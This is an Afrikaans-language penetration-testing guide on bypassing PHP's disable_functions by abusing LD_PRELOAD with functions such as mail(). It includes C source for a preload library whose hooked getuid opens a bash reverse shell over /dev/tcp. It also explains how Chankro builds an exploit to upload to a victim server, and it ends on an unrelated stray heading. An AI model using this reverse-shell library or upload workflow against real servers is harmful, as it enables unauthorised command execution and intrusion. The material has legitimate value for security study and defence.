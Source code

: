 ### LD\_PRELOAD oorloop

Dit is algemeen bekend dat sommige funksies in PHP soos `mail()` **binêre lêers binne die stelsel sal uitvoer**. Jy kan hulle dus misbruik deur die omgewingsveranderlike `LD_PRELOAD` te gebruik om hulle 'n willekeurige biblioteek te laat laai wat enigiets kan uitvoer.

#### Funksies wat gebruik kan word om disable\_functions met LD\_PRELOAD te oorloop

* **`mail`**
* **`mb_send_mail`**: Effektief wanneer die `php-mbstring` module geïnstalleer is.
* **`imap_mail`**: Werk as die `php-imap` module teenwoordig is.
* **`libvirt_connect`**: Vereis die `php-libvirt-php` module.
* **`gnupg_init`**: Bruikbaar met die geïnstalleerde `php-gnupg` module.
* **`new imagick()`**: Hierdie klas kan misbruik word om beperkings te oorloop. Gedetailleerde uitbuitingstegnieke kan gevind word in 'n omvattende [**verslag hier**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/).

Jy kan [**hier**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) die fuzzer-skrip vind wat gebruik is om daardie funksies te vind.

Hier is 'n biblioteek wat jy kan saamstel om die `LD_PRELOAD` omgewingsveranderlike te misbruik:
```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
unsetenv("LD_PRELOAD");
system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
return 1;
}
```
#### Deurloop deur Chankro

Om van hierdie konfigurasie-misbruik gebruik te maak, kan jy [**Chankro**](https://github.com/TarlogicSecurity/Chankro) gebruik. Dit is 'n instrument wat 'n PHP-uitbuiting sal **genereer** wat jy moet oplaai na die kwesbare bediener en dit uitvoer (toegang daartoe verkry via die web).\
**Chankro** sal binne die slagofferskyf die **biblioteek en die omgekeerde dop** skryf wat jy wil uitvoer en sal die\*\*`LD_PRELOAD`-truk + PHP `mail()`\*\* funksie gebruik om die omgekeerde dop uit te voer.

Let daarop dat om **Chankro** te gebruik, `mail` en `putenv` **nie binne die `disable_functions`-lys mag voorkom nie**.\
In die volgende voorbeeld kan jy sien hoe om 'n **Chankro-uitbuiting** te **skep** vir **argitektuur 64**, wat `whoami` sal uitvoer en die uitset in _/tmp/chankro\_shell.out_ sal stoor, Chankro sal die **biblioteek en die nutslading** in _/tmp_ skryf en die **finale uitbuiting** sal **bicho.php** genoem word (dit is die lêer wat jy na die slagofferserver moet oplaai):

{% tabs %}
{% tab title="shell.sh" %}
```php
#!/bin/sh
whoami > /tmp/chankro_shell.out
```
# PHP Nuttige Funksies: disable_functions & open_basedir Bypass
